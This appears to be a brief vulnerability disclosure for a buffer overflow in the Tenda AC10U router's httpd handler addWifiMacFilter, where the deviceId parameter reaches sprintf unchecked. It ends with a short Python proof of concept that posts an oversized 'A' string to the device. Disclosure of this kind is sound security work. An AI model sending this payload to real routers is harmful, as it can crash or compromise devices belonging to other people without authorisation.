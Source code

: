 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/addWifiMacFilter

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](18.png)

get value from deviceId ,then call sprintf, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/addWifiMacFilter"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceId': payload})
``` 
